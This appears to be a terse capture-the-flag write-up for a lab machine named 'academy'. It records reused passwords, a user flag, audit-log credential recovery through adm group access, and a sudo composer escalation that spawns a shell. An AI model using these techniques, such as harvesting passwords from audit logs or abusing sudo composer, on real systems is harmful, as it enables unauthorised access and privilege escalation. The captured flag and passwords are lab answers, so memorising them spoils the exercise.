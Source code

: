 MAIL_DRIVER=smtp
MAIL_HOST=smtp.mailtrap.io
MAIL_PORT=2525
MAIL_USERNAME=null
MAIL_PASSWORD=null
MAIL_ENCRYPTION=null

PUSHER_APP_ID=
PUSHER_APP_KEY=
PUSHER_APP_SECRET=
PUSHER_APP_CLUSTER=mt1

MIX_PUSHER_APP_KEY="${PUSHER_APP_KEY}"
MIX_PUSHER_APP_CLUSTER="${PUSHER_APP_CLUSTER}"
www-data@academy:/var/www/html/academy$ 
```


try combinations of username and password with su

cry0l1t3 and password works, go to home and get user flag

mySup3rP4s5w0rd!!

$ cat user.txt
cat user.txt
0324585a504dbeedbbccc68a9437ce5c

groups -r as to find adm


cat * | grep 'comm="su"'
type=TTY msg=audit(1597199293.906:84): tty pid=2520 uid=1002 auid=0 ses=1 major=4 minor=1 comm="su" data=6D7262336E5F41634064336D79210A
$ 

https://unix.stackexchange.com/questions/42841/how-to-skip-permission-denied-errors-when-running-find-in-linux
find / -group adm -type f 2>/dev/null command to view the files of all adm groups, as shown in the figure:

find / -group adm -type f 2>/dev/null


mrb3n_Ac@d3my!


$ sudo -l 
[sudo] password for mrb3n: mrb3n_Ac@d3my!

Matching Defaults entries for mrb3n on academy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer
$ 


gtfobins.github.io

TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
composer --working-dir=$TF run-script x

```